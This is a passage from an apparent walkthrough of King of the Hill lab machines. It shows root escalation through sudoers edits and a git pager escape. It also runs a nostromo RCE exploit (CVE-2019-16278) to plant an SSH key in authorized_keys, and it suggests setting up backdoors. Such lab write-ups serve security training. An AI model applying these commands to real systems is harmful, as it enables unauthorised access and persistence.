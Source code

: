 6. We can simply edit the `/etc/sudoers/` file to give us ALL permissions to run sudo.<br /> 
7. Using this command:<br /> 
    `sudo pico /etc/sudoers`<br /> 
   Replace `pico` in sudoers file with `ALL`.<br /> 
8. Now you can just do, `sudo su` and you are root.<br /> 

#### You are ROOT, now defend your title.
   

# Machine name: PRODUCTION

 This machine is one of the easist ones.<br /> 
 ![image](https://user-images.githubusercontent.com/54495695/82766838-ff34cc80-9e3f-11ea-88e9-bfe5ed4e48c6.png)
 1. Basic enumeration will get you the password/ssh id_rsa key of user Ashu.<br /> 
 2. Once you are in machine with user as Ashu.<br /> 
    Check the `sudo -l`, you will see that you can run `su` on for user skiddy without password.<br /> 
 3. After, `sudo su skiddy` , You are in the skiddy shell.<br /> 
 4. We don't need to enumerate this machine anymore. The `sudo -l` can show that we can run `git` as sudo.<br /> 
 5. Using GTFObins, we see that the following commands can be used to give us root shell.<br /> 
    `sudo git -p help config`<br /> 
    `!/bin/sh`<br /> 
  Now, `id`, Voila, You are root.<br /> 
  
  P.S. Food for thought, there are two interesting ports open on machine, see if you can setup backdoors for you ;)

#### You are ROOT, now defend your title.<br /> 

# Machine name: Lion

1. After nmap scan we can see that weirdly there is no ssh on the machine. But nostromo is present at port 8080.<br />
  Later after doing complete scan we found that the port for ssh is shifted to port 1337.<br />
  ![image](https://user-images.githubusercontent.com/54495695/83907009-3bdabf00-a782-11ea-9334-867710bc27f4.png)
2. Searching for this vuln, we found that this specific version is vulnerable to CVE-2019-16278.
![nostromo](https://user-images.githubusercontent.com/54495695/83906759-cb33a280-a781-11ea-9258-83f6bf2e8deb.png)

3. Simply downloading the exploit from exploitdb, we can get RCE on machine.
    Note this CVE is python2 based.<br />
    `python2 cve2019-16278.py <KOTH MACHINE IP> 8080 "whoami"`<br />
    ![whoami](https://user-images.githubusercontent.com/54495695/83906864-f7e7ba00-a781-11ea-8998-2722287af76f.png)

  Online there are methods to use this CVE to get a reverse shell. But For some weird reason I was not able to get a rev shell from this. So here's my workaround.<br />
  First we generate sshkey in our machine, then we add the authorized_keys to the machine, as we have RCE.<br />
4. Generating sshkeys:<br />
  `ssh-keygen`<br />
5. Getting the authorized_keys:<br />We need the \*.pub file's data for this, It would look like this:<br />
![auth_key](https://user-images.githubusercontent.com/54495695/83906829-e8687100-a781-11ea-83f8-da94d38deb16.png)
<br />
6. Now use this command:<br />
    `python2 cve2019-16278.py <KOTH IP> 8080 "mkdir /home/gloria/.ssh; echo '<YOUR *.pub file data>' > /home/gloria/.ssh/authorized_keys"`<br />
7. Now we can simply ssh into the machine with our sshkey.<br />
    `ssh -i sshkey gloria@<KOTH BOX IP> -p 1337` <br />
8. And since we are in authorized_keys, we will be logged in without  password.<br />
9. Since we have a shell, Priv Esc is the next step. After some LinPEAS and LinEnum, I found that this box's kernel is vulnerable to cve-2017-16995.<br />